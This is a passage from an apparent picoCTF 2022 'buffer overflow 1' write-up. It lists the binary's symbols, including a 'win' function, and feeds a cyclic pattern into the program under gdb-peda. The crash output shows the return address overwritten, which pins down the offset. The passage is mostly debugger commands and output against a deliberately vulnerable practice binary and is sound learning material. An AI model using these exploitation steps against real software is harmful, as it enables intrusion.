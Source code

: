 ```
0x08049130  __x86.get_pc_thunk.bx
0x08049140  deregister_tm_clones
0x08049180  register_tm_clones
0x080491c0  __do_global_dtors_aux
0x080491f0  frame_dummy
0x080491f6  win
0x08049281  vuln
0x080492c4  main
0x0804933e  get_return_address
0x08049350  __libc_csu_init
0x080493c0  __libc_csu_fini
0x080493c5  __x86.get_pc_thunk.bp
0x080493cc  _fini
```

And we now know *win*
```
0x080491f6  win
```

I installed and am using *gdb-peda* now. I used [zerosum0x0](https://zerosum0x0.blogspot.com/2016/11/overflow-exploit-pattern-generator.html) for an overflow pattern.
```
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
```

Then back in ```gdb```.
```
gdb-peda$ run
Starting program: /home/jacob/docs/ctf/pico/2022/031_buffer_overflow_1/vuln
[Thread debugging using libthread_db enabled]
Using host libthread_db library "/lib/x86_64-linux-gnu/libthread_db.so.1".
Please enter your string:
Aa0Aa1Aa2Aa3Aa4Aa5Aa6Aa7Aa8Aa9Ab0Ab1Ab2Ab3Ab4Ab5Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A
Okay, time to return... Fingers Crossed... Jumping to 0x35624134

Program received signal SIGSEGV, Segmentation fault.
Warning: 'set logging off', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled off'.

Warning: 'set logging on', an alias for the command 'set logging enabled', is deprecated.
Use 'set logging enabled on'.
[----------------------------------registers-----------------------------------]
EAX: 0x41 ('A')
EBX: 0x41326241 ('Ab2A')
ECX: 0x41 ('A')
EDX: 0x0
ESI: 0xffffd064 --> 0xffffd2b2 ("/home/jacob/docs/ctf/pico/2022/031_buffer_overflow_1/vuln")
EDI: 0xf7ffcb80 --> 0x0
EBP: 0x62413362 ('b3Ab')
ESP: 0xffffcf80 ("Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
EIP: 0x35624134 ('4Ab5')
EFLAGS: 0x10286 (carry PARITY adjust zero SIGN trap INTERRUPT direction overflow)
[-------------------------------------code-------------------------------------]
Invalid $PC address: 0x35624134
[------------------------------------stack-------------------------------------]
0000| 0xffffcf80 ("Ab6Ab7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0004| 0xffffcf84 ("b7Ab8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0008| 0xffffcf88 ("8Ab9Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0012| 0xffffcf8c ("Ac0Ac1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0016| 0xffffcf90 ("c1Ac2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0020| 0xffffcf94 ("2Ac3Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
0024| 0xffffcf98 ("Ac4Ac5Ac6Ac7Ac8Ac9Ad0Ad1Ad2A")
```